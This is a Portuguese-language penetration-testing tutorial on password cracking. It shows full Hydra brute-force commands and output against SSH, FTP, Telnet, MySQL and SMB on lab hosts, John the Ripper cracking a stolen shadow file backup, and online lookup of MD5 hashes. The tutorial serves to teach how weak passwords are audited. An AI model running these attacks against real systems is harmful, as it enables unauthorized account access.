

# Quebrando senhas

Diz o ditado: "uma corrente é tão forte quanto seu elo mais fraco". Bem, em cibersegurança, normalmente o elo mais fraco é aquele ponto do sistema que depende das pessoas, e esse é justamente o caso das senhas.

Quando o invasor consegue quebrar/descobrir alguma senha do sistema, ele já tem a invasão praticamente concluída, pois são *login*/senha que geralmente dão acesso aos sistemas. Desta forma, cuidar das senhas e verificar se as senhas utilizadas no sistema não são fracas é fundamental para manter a "saúde" do sistema.

Assim, no processo de PenTeste é fundamental o uso de métodos que permitam verificar as senhas dos sistemas. Então, neste ponto do PenTeste, o PenTester deve saber como buscar por senhas fracas do sistema que está sendo analisado, pois em ataques reais, essa normalmente será a primeira vulnerabilidade à comprometer drasticamente a segurança do sistema. Desta forma, se essa vulnerabilidade existir, ela deve ser corrigida!

Antes de continuar é preciso lembrar que neste ponto estamos em busca de senhas/usuários fracos. Então, a principal medida para evitar senhas fracas, é ensinando os usuários do sistema como criar senhas fortes. Isso é vital para a segurança de qualquer sistema/pessoa. Não vamos entrar em detalhes aqui, mas no geral:
* **Senhas fracas**: as senhas não devem ser encontradas em dicionários, como exemplo:
    * ``password``;
    * ``brasil``;
    * ``iloveyou``;
    * ``matrix``;
    * ``admin``;
    * ``babygirl``;
    * etc.
* **Senhas fortes**: Seria bom que as senhas fossem uma combinação de letras maiúsculas, minúsculas, símbolos e números - é recomendável fazer, por exemplo, uma frase e utilizar combinações desses caracteres, nesta frase. Por exemplo:
    *  A frase: "bacon é vida 2023", poderia virar uma senha como: ``B4c0néV1d@2o2E``, que seria considerada uma senha forte (difícil de adivinhar/quebrar).

> O usuário não deve guardar/escrever a senha e deixar em lugares de fácil acesso, por isso é importante um método que facilite a memorização da senha, tal como o da frase.

**Atenção**, é importante notar que o ***login* do usuário também faz parte do segredo**. Se isso for feito, o invasor terá que descobrir além da senha, a identificação do *login*/usuário. Portanto não é nada recomendável utilizar *logins* como ``root``, ``admin``, e-mails, nome da pessoa, ou qualquer coisa que lembre o usuário em questão.

> Note que muitos sistemas utilizam como *login*/usuário o e-mail da pessoa, assim o invasor só terá o trabalho de descobrir a senha, mas se o *login*/usuário fosse outro, o invasor teria dois trabalhos.

Quanto a quebra de senhas em PenTestes ou invasões, essa pode ocorrer basicamente de duas formas:

* **Online**: neste método, a quebra de senhas ocorre no sistema em produção e geralmente via rede. Por exemplo, experimentando/testando vários usuários/senhas em sítios Web, servidores SSH, servidores de arquivos, bancos de dados, entre outros. Assim, para este método, são realizadas a princípio, diversas requisições via rede, tentando inúmeros usuários/senhas até que alguma combine e dê acesso ao sistema da vítima. Um exemplo de ferramenta Online é a [Hydra](https://github.com/vanhauser-thc/thc-hydra);

* **Offline**: neste método, o invasor normalmente terá "roubado" um banco de dados de senhas. Isso pode ser, por exemplo o arquivo ``/etc/shadow`` de sistemas Like-Unix. De posse dos [*hashes*](https://pt.wikipedia.org/wiki/Fun%C3%A7%C3%A3o_hash) das senhas, o invasor vai utilizar alguma ferramenta que tentará obter a partir de uma entrada, a mesma saída (*hash*) que está em uma ou mais senhas da base de dados de senha. Um exemplo de ferramenta Offline é o [John the Ripper](https://github.com/openwall/john).

> Não necessariamente as senhas são armazenadas como *hashes*, todavia hoje em dia isso é quase que padrão. Entretanto as senhas poderiam ser armazenadas, por exemplo, no formato texto puro! :-p


No geral o processo Offline é mais rápido se comparado ao Online. Além do que, a principio, o método Online é mais fácil de ser detectado, pois normalmente gera um grande número de requisições para a vítima. Todavia, conseguir a base de senha para testes Offline pode difícil.

Tanto ferramentas Online quanto Offline podem utilizar os seguintes métodos de quebra de senhas/usuários:

* **Dicionário**: Neste, a ferramenta testará uma a uma, as palavras de um dicionário (arquivo texto com diversas palavras) como entrada para a senha e/ou usuário do sistema. Caso a palavra do dicionário combine, a senha foi descoberta. Esse método é considerado bem rápido, quando comparado ao próximo, todavia só terá sucesso se os usuários utilizarem senhas consideradas fáceis (o que muitas vezes acontece).
    > Um exemplo de dicionário é o arquivo arquivo [rockyou.txt.gz](https://github.com/3ndG4me/KaliLists) encontrado no Kali Linux.

* **Força Bruta**: Neste a ferramente pode combinar "aleatoriamente" caracteres minúsculos, maiúsculos, números e símbolos, para tentar adivinhar a senha da vítima. Esse processo é muito lento e dependendo da senha utilizada (quantidade de caracteres, etc) pode ser inviável. Todavia, se a senha não for encontrada utilizando-se o método de Dicionário, só restará a força bruta.

    > O uso de Força Bruta pode ser dispendioso e frustrante, por isso compensa muito procurar por bons dicionários de senhas, já que isso pode economizar muito tempo e recursos computacionais.

* **Híbridos**: combina dicionário e força bruta.


Outra técnica é o uso de **Rainbow Table**, que é uma base de dados com *hashes* pré-computado. Desta forma, é possível pegar o *hash* da senha e verificar se este está presente na tabela de *hashes* do Rainbow Table, o que agiliza o processo de descoberta da senha. Atualmente há vários Ranbow Tables disponíveis, inclusive *online*, tal como <https://crackstation.net/>. Todavia o Rainbow Table se aplica em métodos Offline de descobertas de senhas.


> No geral o [Kali Linux](https://www.kali.org/) possui ferramentas para ajudar com todos os tipos/métodos de testes com senhas.

Também é possível quebrar/burlar os sistemas **"resetando" as senhas**. Utilizando por exemplo, o processo padrão de recuperação de senhas. Esse tipo de processo existe, pois as pessoas normalmente esquecem as senhas, então os sistemas devem prever isso e fornecer formas de recuperar essas senhas/contas.

Em nível de Sistema Operacional há duas formas de recuperar as senhas:
 * Utilizando comandos/**procedimentos do próprio sistema**, para recuperar senhas;
 * Empregando **métodos *offline***. Neste, por exemplo, o HD com o sistema a ser recuperado é colocado como HD secundário em um "novo" sistema, no qual é possível acessar as informações, tais como o arquivo de senhas. Isso tudo utilizando as credenciais do novo sistema, ou seja, como o sistema é outro, não são aplicadas as regras de segurança do sistema que estamos querendo "recuperar". Hoje em dia isso pode ser feito facilmente com um [sistema operacional instalado em um PenDrive](https://linuxhint.com/reset_password_kali_linux/).

Geralmente, os métodos de recuperação de senhas colocam o sistema em "[modo de segurança](https://support.microsoft.com/pt-br/windows/iniciar-seu-computador-no-modo-de-seguran%C3%A7a-no-windows-92c27cff-db89-8644-1ce4-b3e5e56fe234)" ou modo *[single](https://www.layerstack.com/resources/tutorials/Resetting-root-password-for-Linux-Cloud-Servers-by-booting-into-Single-User-Mode)* e permitem que o administrador:
 * Altere senhas de qualquer usuário;
 * Crie usuários/senhas;

 Existem métodos para evitar a recuperação de senhas, ou pelo menos dificultar e deixar o processo mais seguro/restrito. Entretanto, isso pode tornar o processo de recuperação de senhas mais difícil ou até mesmo impossível, o que pode gerar problemas de indisponibilidade do sistema, caso o administrador esqueça da senha.

 > Note que normalmente é necessário acesso físico à máquina para realizar os procedimentos de recuperação de senhas.

Dados os vários métodos para quebrar senhas, a seguir são apresentados exemplos de exploração de senhas com o Hydra, John the Ripper e Rainbow Table.

 > Não serão abordados métodos de recuperação de senhas aqui, pois isso pode variar muito de sistema para sistema. Para este tipo de informação procure na Internet algo como: "[ubuntu password recovery](https://www.google.com/search?q=ubuntu+password+recovery&oq=ubuntu+password+recovery&aqs=chrome..69i57j0i19i512l2j0i19i22i30l7.327j0j7&sourceid=chrome&ie=UTF-8)", substitua ``ubuntu`` pelo sistema que você queira recuperar a senha. O livro de SCHULTZ (2016), também apresenta como fazer isso em vários sistemas (ver Referências no final no texto).

## Descoberta de senhas Online utilizando o Hydra


A ferramenta [Hydra](https://github.com/vanhauser-thc/thc-hydra) é muito utilizada para descobertas de senhas Online. Segundo os autores, Hydra foi concebido para testes com senhas, e só deve ser utilizado para fins legais (não invasão). Sua principal característica é suportar uma grande gama de protocolos de rede, tais como: FTP, HTTP-*, IMAP, IRC, LDAP, MS-SQL, MYSAL, POP3, POSTGRES, SMB, RDP, Rexec, Rlogin, SMTP, SSH, Telnet, VNC, etc.

A seguir é apresentado um exemplo de como utilizar o Hydra para verificar as senhas de um sistema com SSH.

### Hydra - Exemplo 1

Para este exemplo será utilizada uma lista de nomes em português:
* [users.txt](arquivos/users.txt), que foi criada a partir do seguinte arquivo: <https://github.com/0xc0da/password-utils/blob/master/wordlists/first-name-pt-br.txt>;

Para nível de contexto, imagine que os nomes dos usuários do sistema foram obtidos durante uma investigação nas mídias da empresa, disponíveis na Internet. Desta forma o *hacker* ou PenTester criou um arquivo com os nomes desses funcionários, que são possíveis nomes de usuários do sistema.


Neste exemplo será utilizado o dicionário de senhas:
* [rockyou-menor.txt](arquivos/rockyou-menor.txt), que é uma fração do arquivo [rockyou.txt.gz](https://github.com/3ndG4me/KaliLists) disponibilizado no Kali Linux.

Para dicionário de senhas, foi utilizado o ``rockyou`` do Kali Linux, que possui aproximadamente uns 133MiB, mas para nossos testes utilizamos apenas uma fração dele, para agilizar o processo de testes. Assim, o arquivo utilizado tem apenas uns 9MiB - como o sistema a ser testado foi feito apenas para isso, nós sabemos que as senhas vão estar nesta porção de arquivo, o arquivo só foi reduzido, não foram inseridas senhas novas.

O sistema que sofrerá o ataque/teste foi feito somente para este fim. Esse é um sistema Linux, que está executando um servidor OpenSSH, e para os testes foram adicionados os seguintes usuários, com suas respectivas senhas:

|Nome do usuário | Senha|
|:---------------|:-----:|
|jose | 123456|
|antonio | iloveyou |
|maria | master |
|ana | felicidade |
|luiz | 123mudar |

> Note que no arquivo de usuários ([users.txt](arquivos/users.txt)), só temos os usuários: ``jose``, ``joao``, ``antonio``, ``maria`` e ``ana``. Não há o usuário ``luiz``, que existe no sistema. Também no arquivo, há o usuário ``joao``, que não existe no sistema.

Bem, para executar o teste específico é utilizado o comando ``hydra``, seguido das opções:
* ``-L`` - para passagem do arquivo de usuários que serão testados;
* ``-P`` - para indicar o arquivo de senhas que serão testadas para cada usuário;
* ``ip|domínio`` - IP ou domínio/URL da vítima;
* ``ssh`` - protocolo que será utilizado.
* ``-t`` - número de *threads* que serão utilizadas no processo.

O resultado do teste é:

```console
$ hydra -L users.txt -P rockyou-menor.txt 192.168.122.47 ssh -t 4
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-06 23:35:35
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 5832555 login tries (l:5/p:1166511), ~1458139 tries per task
[DATA] attacking ssh://192.168.122.47:22/
[STATUS] 40.00 tries/min, 40 tries in 00:01h, 5832515 to do in 2430:13h, 4 active
[STATUS] 28.00 tries/min, 84 tries in 00:03h, 5832471 to do in 3471:43h, 4 active
[STATUS] 26.29 tries/min, 184 tries in 00:07h, 5832371 to do in 3698:04h, 4 active
...
[STATUS] 25.27 tries/min, 4827 tries in 03:11h, 5827728 to do in 3843:18h, 4 active
[22][ssh] host: 192.168.122.47   login: ana   password: felicidade
[22][ssh] host: 192.168.122.47   login: antonio   password: iloveyou
[22][ssh] host: 192.168.122.47   login: jose   password: 123456
[22][ssh] host: 192.168.122.47   login: maria   password: master
[STATUS] 22541.77 tries/min, 4666146 tries in 03:27h, 1166409 to do in 00:52h, 4 active
...
[STATUS] 9441.77 tries/min, 4673676 tries in 08:15h, 1158879 to do in 02:03h, 4 active
```
Bem, na saída do teste anterior, note que se passaram mais de oito horas (``[STATUS] 9441.77 tries/min...08:15h...``) de tentativas de descobrir-se os usuários/senhas do sistema em questão (foi uma noite de teste, de manhã o teste foi cancelado - ``Ctrl+C``). Este tempo de teste resultou na descoberta das senhas dos usuários ``ana``, ``antonio``, ``jose`` e ``maria`` (ver saída a seguir). Isso foi obtido depois de umas 3 horas de teste. O restante do tempo (umas 5 horas), foi provavelmente devido ao fato do sistema tentar as senhas para o usuário ``joao``, que não existe no sistema em questão.

Com o teste é possível perceber que é relativamente fácil descobrir senhas fracas utilizando o Hydra com um bom dicionário de senhas. Todavia o processo de descoberta pode ser bem lento se comparado ao processo Offline (ver a seguir).

De posse dos usuários e senhas do sistema, basta o *hacker*/Pentester tentar logar no sistema utilizando o respectivo usuário, senha e serviço, como por exemplo:

```console
$ ssh antonio@192.168.122.47
```

Após este comando será pedida a senha e se tudo estiver correto, aparecerá o *prompt* do sistema, ou seja, algo como ``$`` ou ``#``, o que confirma a veracidade das senhas e dará acesso ao sistema da vítima.

> Na última seção deste texto, há mais exemplos do uso Hydra com outros protocolos.

## Descoberta de senhas Offline utilizando o John the Ripper

Neste segundo teste foi utilizado o [John the Ripper](https://www.openwall.com/john/), que segundo os autores é uma ferramenta para auditoria e recuperação de senhas. O John the Ripper dá suporte à vários tipos de *hashes* e cifras, tai como: sistemas Like-Unix, macOS, Windows, aplicações Web, banco de dados, etc.

Para testar o John the Ripper, utilizou-se o mesmo cenário de testes do Exemplo 1 (ver seção anterior). Em nível de contexto, imagine que o *hacker*/PenTester conseguiu acessar o sistema Linux e fez o download do arquivo [``/etc/shadow``](https://man7.org/linux/man-pages/man5/shadow.5.html) (arquivo que mantém as senhas do Linux). Neste caso específico o *hacker*/PenTester achou/obteve um arquivo de *backup* com as senhas, tal arquivo é o: [``shadow-vitima-bkp``](arquivos/shadow-vitima-bkp).

> O arquivo ``/etc/shadow`` de sistemas Unix-Like só pode ser visualizado/baixado pelo administrador (``root``). Mas não é incomum achar *backups* desse arquivo armazenado de forma menos protegida, no exemplo parece que este foi o caso.

Agora, de posse do arquivo de senhas da vítima o *hacker*/PenTester executará o John the Ripper, com o mesmo arquivo de senhas utilizado no teste do Hydra ([rockyou-menor.txt](arquivos/rockyou-menor.txt)). Note que não é necessário passar um arquivo de usuários tal como foi feito no Exemplo 1, pois o próprio arquivo ``/etc/shadow`` dá a informação precisa dos usuários que existem no sistema da vítima.

Assim, o comando executado para o teste foi ``john``, seguido das seguintes opções:
* ``--wordlist=`` - dicionário de senhas;
* ``arquivoSenhas`` - arquivo contendo das senhas à serem analisadas, que no caso foi ``shadow-vitima-bkp``.


O resultado do teste é apresentado a seguir:

```console
$ john --wordlist=rockyou-menor.txt shadow-vitima-bkp
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
123456           (jose)
iloveyou         (antonio)
master           (maria)
felicidade       (ana)
123mudar         (luiz)
5g 0:00:00:52 DONE (2023-04-08 12:50) 0.09551g/s 1070p/s 1188c/s 1188C/s 250000..052904
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Observando-se a saída do comando anterior é possível perceber que o ``john``, conseguiu obter as senhas dos usuários: ``jose``, ``antonio``, ``maria``, ``ana`` e ``luiz``.

Para título de comparação entre o método Offline e Online, foi executado o comando ``john`` precedido do comando ``time``, para verificar o tempo de execução do John the Ripper. Assim, o método Offline, neste teste, demorou um pouco mais de 3 minutos (3m29s) para descobrir as senhas. Lembrando que o método Online, neste mesmo cenário, demorou 3 horas para descobrir apenas os usuários ``jose``, ``antonio``, ``maria`` e ``ana``. Pior, ainda ficou mais 5 horas para tentar descobrir a senha de um usuário que nem existia (usuário ``joao``). Já no método Offline do exemplo, é possível saber imediatamente que não existe o usuário ``joao``, bem como descobriu-se da mesma forma que existia ainda um usuário inesperado, chamado ``luiz``.

Então, mesmo que as comparações não tenham cunho científico (ex. não foram executadas repetidamente, para obter-se uma média), é facilmente observável, que o ``john`` sendo o método Offline do exemplo, é muito mais veloz, se comparado com o ``hydra`` (no método Online). É claro que é necessário lembrar que as vezes não é possível utilizar o método Offline, pois esse exige a captura de dados, tal como aconteceu com o arquivo ``/etc/shadow``, e isso dependendo o caso pode ser extremamente complicado para não se dizer impossível.

Voltando ao John the Ripper, após executá-lo uma vez com a entrada de senhas a ser quebrada, e após estes processo ter terminado, é possível utilizar a opção ``--show``, para ver as senhas já descobertas (não é necessário analisar as senhas toda vez - só é necessário o processamento apenas uma vez). A seguir é apresento um exemplo do uso da opção ``--show``.

```console
$ john --show shadow-vitima-bkp
jose:123456:19454:0:99999:7:::
antonio:iloveyou:19454:0:99999:7:::
maria:master:19454:0:99999:7:::
ana:felicidade:19454:0:99999:7:::
luiz:123mudar:19454:0:99999:7:::

5 password hashes cracked, 0 left
```

De posse dessas senhas o *hacker*/Pentester pode tentar acessar o sistema, para isso ele precisará do usuário/senha e serviço de rede disponível na vítima, ou acesso local ao computador da vítima.

> Os serviços de rede, disponíveis na vítima, podem ser descobertos através de *scans* com [nmap](https://nmap.org/). Lembrando que isso deve ser o mais fácil, já que o *hacker*/PenTester já conseguiu o arquivo de senhas.

## Rainbow Table


[Rainbow Table](https://www.techtarget.com/whatis/definition/rainbow-table) é uma base de dados que contém a tupla senha/*hash*, sendo que os *hashes* já estão pré-processados e isso agiliza a descoberta de senhas Offline.

A ideia básica é procurar no Rainbow Table se há um *hash*, que coincide com o *hash* submetido como termo de busca. Caso exista um *hash* igual, basta ver qual senha é daquele *hash* e pronto, a senha foi descoberta. Caso não exista a entrada no Rainbow Table, ai será necessário fazer o processo convencional, tal como é realizado no John the Ripper.

A grande vantagem do Rainbow Table é que não é necessário, a partir de uma senha de entrada, gerar o *hash* para então comparar com o *hash* da base de dados, tal como é feito no John the Ripper. No Rainbow Table, só é necessário a comparação (não é necessário gerar *hashes*), o que agiliza o processo de encontrar senhas.


### Exemplo 3 - Descoberta de senhas com Rainbow Table

Para este exemplo, imagine que o *hacker*/PenTester conseguiu acessar um banco de dados, através de quebra de senhas, ou [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection), e conseguiu informações a respeito de uma tabela de usuário/senhas do sistema. Tais informações são apresentadas na Tabela a seguir:

|User | Password|
|:---------------|:-----:|
|jose | e10adc3949ba59abbe56e057f20f883e|
|antonio | f25a2fc72690b780b2a14e140ef6a9e0 |
|maria | eb0a191797624dd3a48fa681d3061212 |
|ana | 739419e9dbbe9aa73bd716d4b3b9d86b |
|luiz | 89794b621a313bb59eed0d9f0f4e8205 |

> Esses *hashes* são [MD5](https://pt.wikipedia.org/wiki/MD5) e foram gerados a partir das senhas de usuários já utilizadas nos exemplos anteriores. Os *hashes* foram gerados pelo sítio < https://www.miraclesalad.com/webtools/md5.php>.

De posse desses hashes, o objetivo do *hacker*/PenTester é tentar descobrir a senha por trás desses MD5. Então, em nosso exemplo ele vai utilizar um Rainbow Table *online*, disponível no sítio: <https://crackstation.net/>, o que torna o processo bem simples, já que não é nem necessário instalar nenhuma ferramenta.

> Lembrando que o Rainbow Table também é um método Offline.

Assim, o *hacker*/PenTester deve pegar o *hash* de um usuário, tal como o usuário ``jose`` com o *hash* ``e10adc3949ba59abbe56e057f20f883e`` e submeter no sítio, ver imagem a seguir:

|  |
|:--:|
| Figura 1 - Rainbow Table online |

O processamento do sítio <https://crackstation.net/>, apresenta que o *hash* ``e10adc3949ba59abbe56e057f20f883e``, remete a senha ``123456``. Agora basta o *hacker*/PenTester tentar acessar o sistema que utiliza esse usuário.

Ao submeter todos os *hashes* do exemplo ao sítio <https://crackstation.net/>, todas as senhas foram quebradas e de forma muito rápida.  (faça o teste). ;-)

### Mais exemplos com o Hydra

No exemplo 1, foi apresentado como explorar as senhas fracas de usuários utilizando o Hydra através de uma lista de usuários e dicionário de senhas utilizando específicamente o protocolo SSH. Nesta seção será apresentado como utilizar o Hydra buscando por senhas de um usuário específico, com a opção ``-l``, utilizando o mesmo dicionário de senha dos exemplos e vários protocolos.

> Apenas a título de curiosidade todos os comandos foram executados com o comando ``time``, para verificar o tempo de resposta de cada protocolo. Isso é apresentado nas três últimas linhas da saída. O comando ``time`` foi omitido para não gerar confusão com o comando ``hydra``.

#### Hydra SSH

O primeiro exemplo utiliza a opção ``-l``, seguida do usuário ``antonio`` (opção ``-l``), o dicionário de senhas (``-P rockyou-menor.txt.``), o IP da vítima e principalmente do protocolo ``ssh``:

> Todos os exemplo a seguir utilizarão o mesmo formato, mudando-se basicamente o protocolo utilizado.

```console
$ hydra -l antonio -P rockyou-menor.txt 192.168.122.47 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-10 10:33:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1166511 login tries (l:1/p:1166511), ~72907 tries per task
[DATA] attacking ssh://192.168.122.47:22/
[22][ssh] host: 192.168.122.47   login: antonio   password: iloveyou
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-10 10:33:15

real	0m2.284s
user	0m0.146s
sys	0m0.060s
```

Na saída anterior é possível observar que a senha foi obtida com sucesso, já que pelos exemplos anteriores, nós já sabíamos que a senha do ``antonio`` era ``iloveyou``. Tal senha foi obtida com 2.284 segundos de teste. Isso demonstra que a busca por senhas em dicionários de um único usuário pode ser considerada relativamente rápida, quando comparada à busca utilizando lista de usuários e dicionário de senhas, tal como no Exemplo 1.

#### Hydra FTP

Mesmo teste do anterior, mas com o serviço de servidor de arquivos [FTP](https://pt.wikipedia.org/wiki/Protocolo_de_Transfer%C3%AAncia_de_Arquivos):

```console
$ hydra -l antonio -P rockyou-menor.txt 192.168.122.47 ftp
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-10 13:15:57
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1166511 login tries (l:1/p:1166511), ~72907 tries per task
[DATA] attacking ftp://192.168.122.47:21/
[21][ftp] host: 192.168.122.47   login: antonio   password: iloveyou
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-10 13:16:00

real	0m3.120s
user	0m0.137s
sys	0m0.040s
```

Este teste retornou o mesmo resultado, ou seja, a senha ``iloveyou``. O tempo do teste foi 3.120 segundos.

#### Hydra Telnet

Mesmo teste que os anteriores, mas com [Telnet](https://pt.wikipedia.org/wiki/Telnet), mas neste caso os resultados foram diferentes (veja saída a seguir):

```console
$ hydra -l antonio -P rockyou-menor.txt 192.168.122.47 telnet
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-10 10:33:51
[WARNING] telnet is by its nature unreliable to analyze, if possible better choose FTP, SSH, etc. if available
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1166511 login tries (l:1/p:1166511), ~72907 tries per task
[DATA] attacking telnet://192.168.122.47:23/
[23][telnet] host: 192.168.122.47   login: antonio   password: chocolate
[23][telnet] host: 192.168.122.47   login: antonio   password: lovely
[23][telnet] host: 192.168.122.47   login: antonio   password: jessica
[STATUS] 1166511.00 tries/min, 1166511 tries in 00:01h, 1 to do in 00:01h, 3 active
[STATUS] 583255.50 tries/min, 1166511 tries in 00:02h, 1 to do in 00:01h, 3 active
^C
real	2m16.684s
user	0m0.176s
sys	0m0.152s
```
Na saída do ``hydra`` com o Telnet, foi informado erroneamente que as senhas do ``antonio`` eram: ``chocolate``, ``lovely`` e ``jessica``. Todavia, nenhuma dessas senhas permitiu acesso ao sistema em testes posteriores. Lembrando que a senha correta seria ``iloveyou``, tal como visto nos outros testes.

> O próprio Hydra informa que testes com Telnet não são tão confiáveis (``[WARNING] telnet is by its nature unreliable to analyze...``). Atenção, como já sabíamos o resultado esperado, esse teste foi abortado (``Ctrl+c``) depois de uns 2 minutos de execução.

#### Hydra Mysql

Mesmo teste que os anteriores, mas com o banco de dados [Mysql](https://pt.wikipedia.org/wiki/MySQL)/[MariaDB](https://pt.wikipedia.org/wiki/MariaDB). Veja a saída a seguir:

```console
$ hydra -l antonio -P rockyou-menor.txt 192.168.122.47 mysql
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-10 14:27:09
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 1166511 login tries (l:1/p:1166511), ~291628 tries per task
[DATA] attacking mysql://192.168.122.47:3306/
[3306][mysql] host: 192.168.122.47   login: antonio   password: iloveyou
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-10 14:27:20

real	0m10.597s
user	0m0.138s
sys	0m0.043s
```
Para este teste foi adicionado como gerenciador do banco de dados, o usuário ``antonio`` com a senha ``iloveyou``. Ou seja, o ``antonio`` deste exemplo, não era necessariamente o mesmo usuário do sistema do arquivo ``/etc/shadow`` - o usuário do banco de dados pode ser diferente do usuário do sistema. Neste teste, o Hydra também conseguiu encontrar a senha correta (``iloveyou``). O tempo para realizar este teste foi de um pouco mais de 10 segundos.

#### Hydra SMB

O último teste realizado aqui, foi com o sistema de compartilhamentos de arquivos do Windows ([SMB](https://pt.wikipedia.org/wiki/Server_Message_Block)).

Para este, o Hydra v9.4 não conseguiu realizar testes de senhas no *host* que estava sendo utilizado nos testes anteriores, tal *host* utilizava um [Samba](https://www.samba.org/) na versão 4.15.13-Ubuntu e neste cenário o Hydra acusava que estava sendo utilizado o SMBv1 e ele não tinha suporte. Assim, foi utilizada outra distribuição Linux, com o Samba na versão 3.0.25b, neste novo sistema o resultado foi:

> Neste novo sistema foi adicionado o usuário ``antonio`` com a senha ``iloveyou``, tanto no sistema, quanto no Samba (``smbpasswd``).

```console
$ hydra -l antonio -P rockyou-menor.txt smb://192.168.56.10/
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-10 14:31:20
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 1166511 login tries (l:1/p:1166511), ~1166511 tries per task
[DATA] attacking smb://192.168.56.10:445/
[445][smb] host: 192.168.56.10   login: antonio   password: iloveyou
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-10 14:31:20

real	0m0.717s
user	0m0.129s
sys	0m0.016s
```
A senha foi obtida com sucesso e o tempo para isso foi menos de um segundo. Todavia neste caso temos que lembrar que o *host* de teste mudou e a análise deste tempo fica injusta.

Quanto ao problema ocorrido no com Hydra v9.4 no cenário de testes anterior, talvez outra versão do Hydra consiga realizar tal testes, mas isso não foi testado aqui.


Por fim, levando em consideração todos os testes de serviços realizados com o Hydra aqui, é possível observar que o Hydra exerce com maestria sua função de quebra de senhas em vários serviços de redes (não testamos todos aqui) e mesmo existindo situações que ele pode falhar ou apresentar problemas, é possível concluir que o Hydra é uma ferramenta altamente indicada para o auxilio na busca por senhas fracas em sistemas computacionais.

> **Observação 1**: nestes testes não tetamos exaurir as possibilidades para solucionar esses problemas apresentados pelo Hydra, pelos serviços de redes, ou por seus executores - não era esse o objetivo.

> **Observação 2**: lembrando que todos os tempos de testes utilizados aqui foram apenas para questões de curiosidade, já que os testes não foram repedidos para se obter uma média dos tempos, o que seria necessário para fins científicos.


## Referências

* COREY P. SCHULTZ; BOB PERCIACCANTE. Kali Linux Cookbook - Second Edition : Over 80 Recipes to Effectively Test Your Network and Boost Your Career in Security. Birmingham: Packt Publishing, 2016. v. 2nd edISBN 9781784390303. <Disponível em: https://search.ebscohost.com/login.aspx?direct=true&db=e000xww&AN=1621701&lang=pt-br&site=eds-live&scope=site>. Acesso em: 3 abr. 2023.

* <https://www.hackercoolmagazine.com/password-cracking-in-penetration-testing-beginners-guide/>

* <https://github.com/vanhauser-thc/thc-hydra>

* <https://www.openwall.com/john/>
